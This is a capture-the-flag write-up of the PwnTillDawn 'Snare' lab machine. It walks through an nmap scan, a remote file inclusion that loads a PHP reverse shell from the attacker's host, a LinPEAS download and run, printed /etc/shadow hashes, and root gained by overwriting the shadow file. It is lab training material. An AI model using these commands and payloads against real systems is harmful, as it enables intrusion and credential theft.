

PwnTillDawn - Snare Machine Writeup
This writeup details the steps I took to exploit and escalate privileges on the Snare machine.
Key Takeaways
- Review web application configurations to exploit parameter manipulation vulnerabilities like RFI.
- Check sensitive files such as
/etc/shadowfor their permissions. - Use automated tools like LinPEAS to quickly identify misconfigurations and exploit.
Step 1: Initial Reconnaissance
Using db_nmap, I performed a service scan on the target machine:
[msf](Jobs:0 Agents:1) >> db_nmap 10.150.150.18
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 23:22 EAT
[*] Nmap: Nmap scan report for 10.150.150.18
[*] Nmap: Host is up (0.40s latency).
[*] Nmap: Not shown: 998 closed tcp ports (reset)
[*] Nmap: PORT STATE SERVICE
[*] Nmap: 22/tcp open ssh
[*] Nmap: 80/tcp open http
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 32.07 seconds
[msf](Jobs:0 Agents:1) >> db_nmap -sV -sC -p22,80 10.150.150.18
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 23:23 EAT
[*] Nmap: Nmap scan report for 10.150.150.18
[*] Nmap: Host is up (0.47s latency).
[*] Nmap: PORT STATE SERVICE VERSION
[*] Nmap: 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: | 3072 2f:0e:73:d4:ae:73:14:7e:c5:1c:15:84:ef:45:a4:d1 (RSA)
[*] Nmap: | 256 39:0b:0b:c9:86:c9:8e:b5:2b:0c:39:c7:63:ec:e2:10 (ECDSA)
[*] Nmap: |_ 256 f6:bf:c5:03:5b:df:e5:e1:f4:da:ac:1e:b2:07:88:2f (ED25519)
[*] Nmap: 80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
[*] Nmap: | http-title: Welcome to my homepage!
[*] Nmap: |_Requested resource was /index.php?page=home
[*] Nmap: |_http-server-header: Apache/2.4.41 (Ubuntu)
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 22.21 seconds
- Open ports: 22 (SSH) and 80 (HTTP)
- The HTTP service revealed an index page with a parameterized
pagequery string.
Step 2: Exploiting Remote File Inclusion (RFI)
I tested for Remote File Inclusion (RFI) and successfully executed a reverse shell by hosting a malicious PHP file on my local server:

Preparing the Exploit
Modified a PHP reverse shell from Pentest Monkey to include my attacker's IP (
10.66.66.134) and port (8000).Hosted the exploit file using a Python HTTP server:
python -m http.serverTriggered the RFI vulnerability:
curl 'http://10.150.150.18/index.php?page=http://10.66.66.134:8000/exploit'Set up a Metasploit multi-handler to catch the shell:
[msf](Jobs:0 Agents:1) >> use exploit/multi/handler [msf](Jobs:0 Agents:1) exploit(multi/handler) >> set LHOST 10.66.66.134 [msf](Jobs:0 Agents:1) exploit(multi/handler) >> run
[msf](Jobs:0 Agents:1) >> search multi/handler
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/linux/local/apt_package_manager_persistence 1999-03-09 excellent No APT Package Manager Persistence
1 exploit/android/local/janus 2017-07-31 manual Yes Android Janus APK Signature bypass
2 auxiliary/scanner/http/apache_mod_cgi_bash_env 2014-09-24 normal Yes Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
3 exploit/linux/local/bash_profile_persistence 1989-06-08 normal No Bash Profile Persistence
4 exploit/linux/local/desktop_privilege_escalation 2014-08-07 excellent Yes Desktop Linux Password Stealer and Privilege Escalation
5 exploit/multi/handler manual No Generic Payload Handler
6 exploit/windows/mssql/mssql_linkcrawler 2000-01-01 great No Microsoft SQL Server Database Link Crawling Command Execution
7 exploit/windows/browser/persits_xupload_traversal 2009-09-29 excellent No Persits XUpload ActiveX MakeHttpRequest Directory Traversal
8 exploit/linux/local/yum_package_manager_persistence 2003-12-17 excellent No Yum Package Manager Persistence
Interact with a module by name or index. For example info 8, use 8 or use exploit/linux/local/yum_package_manager_persistence
[msf](Jobs:0 Agents:1) >> use 5
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set LHOST 10.66.66.134
LHOST => 10.66.66.134
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (generic/shell_reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 10.66.66.134 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
View the full module info with the info, or info -d command.
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 10.66.66.134:4444
[*] Command shell session 7 opened (10.66.66.134:4444 -> 10.150.150.18:45170) at 2024-09-01 23:35:56 +0300
Shell Banner:
Linux snare 5.4.0-53-generic #59-Ubuntu SMP Wed Oct 21 09:38:44 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
17:35:42 up 40 min, 2 users, load average: 0.00, 0.00, 0.06
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
root tty1 - 17Dec20 946days 0.06s 0.04s -bash
root pts/0 10.66.66.38 27Nov20 1373days 0.02s 0.02s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 --version
Python 3.8.5
$ python3 -c "import pty;pty.spawn('/bin/sh')"
$ bash
bash
www-data@snare:/$ ls
ls
bin dev lib libx32 mnt root snap sys var
boot etc lib32 lost+found opt run srv tmp
cdrom home lib64 media proc sbin swap.img usr
www-data@snare:/$ cd /home
cd /home
www-data@snare:/home$ ls
ls
snare
www-data@snare:/home$ cd snare
cd snare
www-data@snare:/home/snare$ ls
ls
FLAG1.txt
[ REDUCTED ]
Step 3: Privilege Escalation
To escalate privileges, I used LinPEAS to enumerate potential vulnerabilities:
Hosting LinPEAS
Hosted the script using Python HTTP server:
python -m http.serverDownloaded the script on the target machine:
wget http://10.66.66.134:8000/linpeas.sh chmod +x linpeas.sh ./linpeas.sh
Key Finding:
The /etc/shadow file was world-writable:
```bash www-data@snare:/tmp$ ls -alh /etc/shadow -rwxrwxrwx 1 root shadow 1.2K Nov 20 2020 /etc/shadow
www-data@snare:/home/snare$ cd /tmp
cd /tmp
www-data@snare:/tmp$ wget http://10.66.66.134:8000/linpeas.sh
wget http://10.66.66.134:8000/linpeas.sh
--2024-09-01 17:39:35-- http://10.66.66.134:8000/linpeas.sh
Connecting to 10.66.66.134:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 823052 (804K) [text/x-sh]
Saving to: ‘linpeas.sh’
linpeas.sh 100%[===================>] 803.76K 15.3KB/s in 75s
2024-09-01 17:40:51 (10.7 KB/s) - ‘linpeas.sh’ saved [823052/823052]
www-data@snare:/tmp$ ls -alh /etc/shadow
ls -alh /etc/shadow
-rwxrwxrwx 1 root shadow 1.2K Nov 20 2020 /etc/shadow
www-data@snare:/tmp$ cat /etc/shadow
cat /etc/shadow
root:$6$b8wkwLbICzuTqPiO$dFLYb8ZNEpfGLRnvODlyGfjtZQTV85FJCDCBGiZEU9b3laym9RJo144xkYEldB419O1Q3E5FARrKRRn/LrtZc0:18586:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
tss:*:18474:0:99999:7:::
uuidd:*:18474:0:99999:7:::
tcpdump:*:18474:0:99999:7:::
landscape:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
sshd:*:18579:0:99999:7:::
systemd-coredump:!!:18579::::::
snare:$6$H64MOvr/bVP1M3TM$ITTpmiB7QNgv7EARjOcIMgeBvbCXlDOU5LqjA7q0ivXWhevk7HbatblgH7Yc1y8aUo0pnASOhJgjWRlGMsusu/:18586:0:99999:7:::
lxd:!:18579::::::
Exploiting Writable Shadow File
Generated a new password hash for the root user:
mkpasswd -m sha-512 elliothacks $6$GDyAeq7lpWUI04RY$VOEmda0awSK5jM5Gl3kmWAb.pMtKu33uNuRsxO112gmOHzyTkFf53FDG5pF9rM3kwCFYN7WMEMX4W1l9/HbVd/Created a modified
/etc/shadowfile locally with the new root hash.Uploaded and overwrote the shadow file on the target machine:
wget http://10.66.66.134:8000/elly.txt cat elly.txt > /etc/shadowGained root access:
su root Password: elliothacks
Verification:
root@snare:/root# ls
FLAG2.txt snap
www-data@snare:/tmp$ wget http://10.66.66.134:8000/elly.txt
--2024-09-01 18:24:16-- http://10.66.66.134:8000/elly.txt
Connecting to 10.66.66.134:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1129 (1.1K) [text/plain]
Saving to: ‘elly.txt’
elly.txt 100%[===================>] 1.10K --.-KB/s in 0.02s
2024-09-01 18:24:17 (45.0 KB/s) - ‘elly.txt’ saved [1129/1129]
www-data@snare:/tmp$ cat elly.txt>/etc/shadow
www-data@snare:/tmp$ su root
Password: elliothacks
root@snare:/tmp# cd /root
root@snare:~# ls
FLAG2.txt snap
Snare has been pwned!